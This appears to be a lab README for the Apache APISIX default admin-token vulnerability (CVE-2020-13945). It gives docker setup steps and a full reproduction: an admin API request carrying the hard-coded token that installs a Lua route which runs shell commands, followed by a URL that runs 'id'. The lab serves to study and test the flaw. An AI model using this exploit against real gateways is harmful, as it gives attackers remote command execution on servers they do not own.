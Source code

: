 # Apache APISIX's Admin API default access token vulnerability (CVE-2020-13945)

[中文版本(Chinese version)](README.zh-cn.md)

Apache APISIX is a dynamic, real-time, high-performance API gateway. Apache APISIX has a default built-in API token `edd1c9f034335f136f87ad84b625c8f1` that can be used to access all the admin API, which leads to the remote LUA code execution through the `script` parameter added in the 2.x version.

References:

- https://apisix.apache.org/docs/apisix/getting-started
- https://github.com/apache/apisix/pull/2244
- https://seclists.org/oss-sec/2020/q4/187

## Vulnerability Environment

Execute following command to start a Apache APISIX server 2.11.0 (this vulnerability hasn't been fixed until newest version, might be not considered fixing by vendor):

```
docker compose up -d
```

After the server is started, you can see a default 404 page at `http://your-ip:9080`.

## Vulnerability Reproduce

Add a new evil router rule to the APISIX through admin api with default token:

```
POST /apisix/admin/routes HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Content-Type: application/json
Content-Length: 406

{
    "uri": "/attack",
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "example.com:80": 1
        }
    }
}
```

![](1.png)

Then, use this evil router to execute arbitrary commands:

```
http://your-ip:9080/attack?cmd=id
```

![](2.png)
